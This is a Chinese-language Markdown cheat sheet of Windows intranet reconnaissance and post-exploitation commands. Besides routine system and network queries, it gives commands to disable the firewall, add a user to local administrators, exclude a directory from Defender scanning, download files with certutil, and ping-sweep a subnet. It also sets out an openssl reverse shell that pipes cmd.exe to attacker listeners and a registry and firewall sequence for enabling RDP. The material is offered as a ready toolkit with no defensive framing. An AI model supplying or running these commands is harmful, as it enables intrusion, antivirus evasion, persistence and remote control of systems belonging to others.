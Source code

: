 # Windows内网信息搜集

参考：
- [浅析内网信息收集](https://xz.aliyun.com/t/8291)


### 网络配置
```
ipconfig /all
```

### 操作系统信息/英文
```
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### 查看杀毒软件信息
```
wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
displayName              pathToSignedProductExe                                          productState
Windows Defender         windowsdefender://                                              393488
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
ESET Endpoint Antivirus  C:\Program Files\ESET\ESET Endpoint Antivirus\ecmd.exe          266256
```

### 查看计划任务信息
```
schtasks  /query  /fo  LIST /v
```

### 查看用户列表
```
net user
```

### 查看当前在线用户
```
query user || qwinsta
```


### 查看端口开放信息
```
netstat –ano
```

### 查看补丁信息
```
systeminfo
```

或者
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### 在某目录下的某些后缀文件中查找某文件内容
```
findstr /s /n /i /c:"class WebPage" "D:\xxx\yyy\*.cs"
```
### Windows下查看IIS的各个网站的目录以及配置信息
```
appcmd list site /config
```

### 查看防火墙信息
```
netsh firewall show config
```

### 关闭防火墙
Windows server 2003系统及以前版本，命令如下：
```
netsh firewall set opmode disable
```
Windows server 2003之后系统版本，命令如下：
```
netsh advfirewall set allprofiles state off
```

### 下载文件到某目录
```
certutil.exe -urlcache -split -f "https://www.baidu.com/" C:\baidu.txt
```

### ICMP探测内网
```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.85.%I | findstr "TTL="
```

### 将自己加入管理员
```
net localgroup administrators domain\username /add
```

### Defender排除某个目录：
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath "C:\Users\admin\Downloads"

### Openssl.exe反弹shell：
攻击者：
```
D:\Git\usr\bin\openssl.exe req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #生成证书
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 80 #命令输入
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 443 #命令输出
```
被控端：
```
D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:80|cmd.exe|D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:443
```

### Windows10下开启Telnet命令：

```
开启
dism /online /Enable-Feature /FeatureName:TelnetClient
关闭
dism /online /Disable-Feature /FeatureName:TelnetClient
```


### 开启RDP
```
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 0   //先关闭rdp
netsh advfirewall firewall add rule name="RDP7" protocol=TCP dir=in localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 1  //再开启rdp
```
